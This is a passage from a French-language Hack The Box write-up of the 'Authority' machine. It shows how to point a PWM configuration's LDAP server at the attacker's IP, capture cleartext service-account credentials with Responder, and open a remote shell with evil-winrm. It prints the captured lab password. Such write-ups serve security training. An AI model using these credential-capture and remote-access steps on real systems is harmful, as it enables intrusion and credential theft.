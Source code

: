 ### Utilisation de responder sous kali

Etant donné que le `Responder` ne peut émuler un serveur ldaps mais seulement un serveur ldap, nous allons modifier le fichier de configuration pour que cela corresponde.

On change la ligne `<value>ldaps://authority.authority.htb:636</value>` par `<value>ldap://10.10.16.58:389</value>`

<u>Côté attaquant</u>
On met le listener en marche côté kali :
```console
sudo responder -I tun0
```

<u>Côté site web</u>
On importe le fichier de configuration modifié et on attend d'avoir des actions sur le listeners.


On obtient des identifiants en dur :
<img src="/assets/images/WriteUps/HackTheBox/Autority/clearTextLdap.png" width="600px" height="70" style="display: block; margin: 0 auto"/>

`Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb`
`Cleartext Password : lDaP_1n_th3_cle4r!`

### Utilisation de WinRM

On utilise les credentials récupérer précédemment avec evil-rm :
```console
$ evil-winrm -i 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r!
```

On obtient le flag user dans le bureau.

## Escalade de privilège


## Ref

- [PWM](https://github.com/pwm-project/pwm/)
- [Ansible](https://fr.wikipedia.org/wiki/Ansible_(logiciel))
- [Ansible Vault Secret](https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/)
- [Utilisation de Responder - A voir plus tard](https://systemweakness.com/using-responder-to-capture-the-credentials-a9d5a1013333)